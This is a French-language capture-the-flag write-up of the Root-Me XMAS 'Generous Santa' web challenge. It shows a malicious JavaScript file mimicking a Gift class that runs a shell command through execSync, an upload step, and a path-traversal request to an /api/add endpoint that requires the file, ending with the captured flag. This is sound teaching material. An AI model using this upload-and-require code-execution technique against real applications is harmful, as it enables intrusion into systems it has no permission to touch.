


# 🎅 Generous Santa (XMAS Day 1)

### 🛠 Type : `Web`

### ✍️ Auteur : `Elweth`

## 📝 Description

Ce challenge repose sur l'upload d'un fichier et une exécution non contrôlée via `require`. L'objectif est d'exploiter cette faille pour exécuter du code arbitraire et obtenir le flag.

## 💀 Analyse du code source

On a accès au code source, ce qui signifie qu'il faut trouver un moyen de l'exploiter.

En explorant l'application, on découvre une fonctionnalité permettant d'**uploader une suggestion**, sous forme d'image. Cependant, aucun vérification n'est effectuée sur le type de fichier envoyé, ce qui ouvre une première piste d'exploitation.



De plus, on remarque une méthode `add` qui fait un `require` sur un fichier dont le chemin est fourni dans la requête. Cela semble potentiellement exploitable avec un **path traversal**

## 

## 🤔 Exploitation de la faille

### 🔍 Idée d'attaque

L'idée est d'**uploader un fichier JavaScript malveillant** qui imite un objet `Gift` existant dans l'application, avec une méthode `store()` modifiée pour exécuter une commande système et récupérer le flag.

Plusieurs tentatives d'exécution de commandes via `require`, j'ai éssayé avec `exec()`, mais celà ne marchait pas. En utilisant `execSync`, celà fonctionne parfaitement.

J'ai donc créé un fichier `poulet.js` contenant :

```js
const { execSync } = require("child_process");

class Gift {
  constructor({ name, description }) {
    this.name = name || "default name";
    this.description = description || "default description";
  }

  store() {
    try {
      const commandOutput = execSync("cat ../../flag.txt").toString();
      return {
        success: true,
        name: this.name,
        description: this.description,
        commandOutput,
      };
    } catch (error) {
      return {
        success: false,
        error: error.message,
      };
    }
  }
}

module.exports = Gift;
```

---

## 🎉 Exécution de l'attaque

1. **Upload du fichier malveillant** :

   ```json
   {
     "message": "Thank you! Santa will consider your suggestion.",
     "photoPath": "/tmp/2024-12-02_17-2-45/poulet.js"
   }
   ```

2. **Exploitation via l'endpoint `/add`** :

   ```http
   POST /api/add HTTP/2
   Host: day1.challenges.xmas.root-me.org
   Content-Length: 55

   {
       "product":"../../../tmp/2024-12-02_17-2-45/poulet.js"
   }
   ```

3. **Réponse de l'API** :

   ```json
   {
     "success": true,
     "output": {
       "success": true,
       "name": "../../../tmp/2024-12-02_17-2-45/poulet.js",
       "description": "Description of ../../../tmp/2024-12-02_17-2-45/poulet.js",
       "commandOutput": "The flag is : \n\nRM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}"
     }
   }
   ```

---

## 🏁 Flag

```
RM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}
```

---

## 🚀 Conclusion

Ce challenge sur la **faiblesse d'upload** était très interessant.

- L'absence de vérification des fichiers uploadés a permis d'envoyer un code ressemblant mais malveillant.
- Le `require` sans contrôle a permis d'exécuter notre code.

### 📝 Autres Write-Ups du même challenge

[Laluka - D01 Generous Santa - Root-Me Xmas CTF](https://www.youtube.com/watch?v=XaT6NnGCjYg)

https://an0n1mity.com/posts/rootme-xmas-generous-santa/
